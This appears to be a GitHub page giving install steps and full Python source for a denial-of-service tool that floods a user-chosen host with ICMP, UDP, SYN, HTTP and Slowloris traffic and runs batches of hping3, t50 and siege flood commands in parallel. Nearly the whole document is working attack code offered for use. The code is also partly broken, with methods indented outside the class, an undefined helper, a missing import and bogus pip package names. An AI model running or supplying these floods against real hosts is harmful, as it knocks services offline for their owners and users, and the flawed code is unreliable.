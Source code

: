 # It is not useless to say that you probably got to pre-install a few tools before. And better to use a virtual enviroment.
## I do use Kali, so i have all those things by default. But you probably will have to install the following:

    sudo apt-get install siege t50 hping3

## As i said before, better would be to use a virtual enviroment. Just for any case, i will provide steps for it, with dependencies:

    # move to directory you installed responder

    python3 -m venv env && source env/bin/activate

    # you now must see (env) before your name, if so, do next:

    pip install --upgrade pip
    pip install tkinter colorama aiohttp asyncio threadpoolexecutor subprocesses logging

## And make sure you have python3.9 +, root rights and you use it with respect to License

    #!/usr/bin/python3

    import os
    import subprocess
    import socket
    import random
    import asyncio
    import aiohttp
    import time
    import logging
    from concurrent.futures import ThreadPoolExecutor, as_completed
    from colorama import Fore, Style, init
    
    init(autoreset=True)
    logging.basicConfig(filename='attack_log.txt', level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
    
    os.system("clear")
    os.system("figlet KALINUX SECURITY RESPONDER")
    
    class AttackManager:
        def __init__(self, target_ip, target_port=80, num_requests=1000, max_threads=4, attack_duration=30):
            self.target_ip = target_ip
            self.target_port = target_port
            self.num_requests = num_requests
            self.max_threads = max_threads
            self.attack_duration = attack_duration
            self.protocol_methods = {
                "UDP": self.udp_flood,
                "TCP": self.tcp_syn_flood,
                "HTTP": self.run_http_attack,
                "T50": self.t50_attack,
                "Siege": self.siege_attack,
                "Hping3": self.hping3_attack,
                "Slowloris": self.slowloris_attack,
                "ICMP": self.icmp_flood
            }

    def resolve_ip(self):
        try:
            resolved_ip = socket.gethostbyname(self.target_ip)
            logging.info(f"[#] Target IP: {resolved_ip}")
            return resolved_ip
        except socket.gaierror:
            logging.error("Invalid target domain.")
            sys.exit(1)

    def icmp_flood(self):
        command = f"sudo hping3 {self.target_ip} --icmp --flood"
        subprocess.run(command, shell=True)


    def udp_flood(self):
        command = f"sudo hping3 {self.target_ip} --udp --flood -p {self.target_port}"
        subprocess.run(command, shell=True)

    def tcp_syn_flood(self):
        command = f"sudo hping3 {self.target_ip} -S -p {self.target_port} --flood"
        subprocess.run(command, shell=True)

    async def http_flood(self, session, url):
        headers = {"User-Agent": "Mozilla/5.0", "Connection": "keep-alive"}
        try:
            async with session.get(url, headers=headers) as response:
                logging.info(f"Sent GET request to {url}, Status: {response.status}")
        except Exception as e:
            logging.error(f"Error in HTTP request: {e}")

    async def run_http_attack(self):
        url = f"http://{self.target_ip}:{self.target_port}/{self.generate_random_path()}"
        async with aiohttp.ClientSession() as session:
            tasks = [self.http_flood(session, url) for _ in range(self.num_requests)]
            await asyncio.gather(*tasks)

    def slowloris_attack(self):
        sockets = []
        try:
            for _ in range(self.num_requests):
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.settimeout(4)
                s.connect((self.target_ip, self.target_port))
                s.send("GET / HTTP/1.1\r\n".encode("utf-8"))
                sockets.append(s)
            while sockets:
                for s in sockets:
                    try:
                        s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
                    except socket.error:
                        sockets.remove(s)
                time.sleep(15)
        except Exception as e:
            logging.error(f"Slowloris error: {e}")

    def hping3_attack(self):
        commands = [
           f"sudo hping3 -A {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -S {self.target_ip} -p {self.target_port} --flood -d 1000",
           f"sudo hping3 -2 {self.target_ip} -p {self.target_port} -s 1024-65535 --flood",
           f"sudo hping3 -2 {self.target_ip} -p {self.target_port} --flood --interval u1000",
           f"sudo hping3 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -1 {self.target_ip} -p {self.target_port} --flood --interval u10",
           f"sudo hping3 -1 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -0 {self.target_ip} -p {self.target_port} --flood --interval u1000",
           ]
        for command in commands:
           self.run_command(command, "Hping3 attack")


    def t50_attack(self):
        commands = [
            f"sudo t50 {self.target_ip} --protocol TCP --flood --dport {self.target_port}",
            f"sudo t50 {self.target_ip} --protocol ICMP --flood",
            f"sudo t50 {self.target_ip} --protocol UDP --flood --dport {self.target_port}",
            f"sudo t50 {self.target_ip} --protocol IPSEC --flood",
            f"sudo t50 {self.target_ip} --protocol DCCP --flood",
            f"sudo t50 {self.target_ip} --protocol T50 --flood --dport {self.target_port}",
            ]
        for command in commands:
            self.run_command(command, "T50 attack")


    def siege_attack(self):
        commands = [
            f"siege -t 1m {self.target_ip}",
            f"siege -c 100 -t 1m {self.target_ip}",
            f"siege -c 200 -t 5m {self.target_ip}",
            f"siege -c 500 -t 1m -r 5 {self.target_ip}",
            f"siege -c 500 -t 5m -r 10 {self.target_ip}",
            f"siege -c 500 -t 5m -r 29 {self.target_ip}",
            ]
        for command in commands:
            self.run_command(command, "Siege attack")

    # profits from this type of code building is possibility to add/or configure that much attacks as you want.

    def run_command(self, command, description):
        try:
           subprocess.run(command, shell=True, timeout=self.attack_duration)
           logging.info(f"{description} completed.")
        except subprocess.TimeoutExpired:
           logging.warning(f"{description} timed out.")
        except Exception as e:
           logging.error(f"Error during {description}: {e}")


    def execute_attack(self, protocol):
        if protocol == "HTTP":
            asyncio.run(self.run_http_attack())
        elif protocol in self.protocol_methods:
            self.protocol_methods[protocol]()
        else:
            logging.error(f"Invalid protocol: {protocol}")

    def start_parallel_attacks(self, protocols):
        with ThreadPoolExecutor(max_workers=self.max_threads) as executor:
            futures = [executor.submit(self.execute_attack, protocol) for protocol in protocols]
            for future in as_completed(futures):
                try:
                    future.result()
                except Exception as e:
                    logging.error(f"Error during parallel execution: {e}")

    def start_attack_sequence(self):
        print("Choose attack method(s):\n1. ICMP\n2. UDP\n3. TCP\n4. HTTP\n5. Slowloris\n6. T50\n7. Siege")
        method = input("Enter method numbers separated by commas: ")

        protocol_map = {"1": "ICMP", "2": "UDP", "3": "TCP", "4": "HTTP", "5": "Slowloris", "6": "T50", "7": "Siege"}
        selected_protocols = [protocol_map.get(m.strip()) for m in method.split(",") if protocol_map.get(m.strip())]

        if selected_protocols:
            print(Fore.RED + f"Starting attack(s): {', '.join(selected_protocols)}...")
            self.start_parallel_attacks(selected_protocols)
        else:
            print(Fore.RED + "Invalid selection.")

    if __name__ == "__main__":
        target_host = input(Fore.BLUE + "Enter target host (IP or domain): " + Style.RESET_ALL)
        target_port = int(input(Fore.BLUE + "Enter target port (default 80): " + Style.RESET_ALL) or 80)
        num_requests = int(input(Fore.BLUE + "Enter number of requests for HTTP Flood (default 1000): " + Style.RESET_ALL) or 1000)
        max_threads = int(input(Fore.BLUE + "Enter max threads (default 4): " + Style.RESET_ALL) or 4)

    manager = AttackManager(target_host, target_port, num_requests, max_threads)
    manager.start_attack_sequence()
